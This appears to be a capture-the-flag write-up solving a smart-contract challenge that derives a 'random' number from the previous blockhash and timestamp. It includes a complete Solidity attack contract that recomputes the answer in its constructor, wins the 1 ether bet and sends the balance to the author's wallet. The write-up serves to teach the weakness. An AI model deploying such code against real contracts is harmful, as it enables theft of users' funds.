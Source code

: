 We just need to code a contract that generates the number the exact same way prior to guessing it. ~~For some reason that I don't quite understand though, the `guess()` call simply would not go through until I tried to do it through the constructor of the contract.~~ I simply didn't have a fallback function to receive the funds, so it worked in the constructor of the contract because before finalizing constructor execution, the funds would have already been sent to my address, but if a fallback function is added, then the funds can be properly received by the contract and the transactions won't fail.

I coded the contract as follows:

```js
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.5 <0.8.0;

contract GuessTheNewNumberAttack {
    constructor(address payable challenge) public payable {
        // low-level call success
        bool success;

        // check that we're forwarding the correct amount of funds
        require(msg.value == 1 ether, 'msg.value should be at least 1 ether');

        // get answer
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        
        // make the guess
        (success,) = challenge.call{value:1 ether}(abi.encodeWithSignature("guess(uint8)", answer));
        require(success, "guess failed");

        // send funds back to my account
        (success,) = msg.sender.call{value:address(this).balance}("");
        require(success, 'call failed');
    }
}
```

On deployment, the guess was successful (as it runs in the constructor) and the balance is sent back to my wallet. By simply deploying this contract, the challenge is solved.

This can be solved similarly in the same version of the solidity compiler that the challenge is originally using (0.4.21), but given that I'm using a newer version, there's some small nuances due to changes in the solidity compiler since then:

- `block.blockhash()` has been replaced by `blockhash()`
- `now` has been deprecated in favor of `block.timestamp`
- Now it's not possible to pass multiple parameters to the `keccak256()` hash function, so we must use `abi.encodePacked()` before passing it to `keccak256()`
- It is not possible to cast directly from a hash to uint8, so we must first pass through a type that has the same size in bytes as the value returned by the hash function, so we first cast to uint256 and then to uint8.

#### Submission transaction
